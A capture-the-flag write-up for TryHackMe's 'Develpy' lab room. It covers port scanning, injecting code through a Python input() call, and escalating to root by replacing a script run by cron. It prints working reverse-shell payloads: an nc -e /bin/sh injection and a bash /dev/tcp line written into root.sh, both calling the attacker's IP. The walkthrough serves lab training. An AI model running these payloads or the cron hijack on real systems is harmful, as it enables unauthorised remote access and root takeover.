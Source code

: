 # 38 - Develpy (python input function exploitation)

Room Link --> [https://tryhackme.com/room/bsidesgtdevelpy](https://tryhackme.com/room/bsidesgtdevelpy)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.255.206 -p- -T5 -sV

22/tcp    open  ssh   syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
10000/tcp open        snet-sensor-mgmt? syn-ack
```
{% endcode %}

I tried navigating to : `http://10.10.255.206:10000`

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see our input is passed into the python "input" function, meaning we can just enter our rev shell exploit to gain reverse shell.

We can use netcat also.

[https://intx0x80.blogspot.com/2017/05/python-input-vulnerability\_25.html](https://intx0x80.blogspot.com/2017/05/python-input-vulnerability\_25.html)

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc 10.10.255.206

# enter this to get rev shell, make sure nc is listening.
__import__("os").system("nc -e /bin/sh 10.18.88.214 4242")
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We got shell</p></figcaption></figure>

### Priv Esc

`cat /etc/crontab`&#x20;

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There are 3 jobs running every minute.

We can repace the "root.sh" with our own that contains a reverse shell, and setup nc listener so when the job is runn we can get rev shell as root user.

```
rm root.sh
echo 'bash -i >& /dev/tcp/10.18.88.214/2234 0>&1' > root.sh
```

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Immediately we get root shell.

Done !

